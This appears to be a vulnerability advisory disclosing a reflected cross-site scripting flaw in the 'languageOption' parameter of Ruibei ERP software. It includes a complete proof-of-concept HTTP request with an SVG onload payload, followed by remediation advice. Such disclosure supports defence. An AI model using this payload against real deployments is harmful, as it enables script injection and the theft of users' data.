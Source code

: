 # XSS vulnerability exists in the ERP parameter languageOption of Ruibei software

### 企业官网(Enterprise official website)：

https://www.rebee.cn/

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：

```
GET /?action=gygg7&address=lxy59&callback=flmr4&enddate=tb1p6&height=mfxh2&ipad=nmpg7&isAndroid=v0170&json=um6r5&key=ot3b7&languageOption="><svg onload=alert(1)>//&m=wzvg9&mobilePhone=wsgf6&mod=ws828&page=i65b0&q=dkfv0&query=lifq6&s=jin37&src=kyvw0&type=u4py8&verificationCode=b8ye4 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip

```

![](20.png)



### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

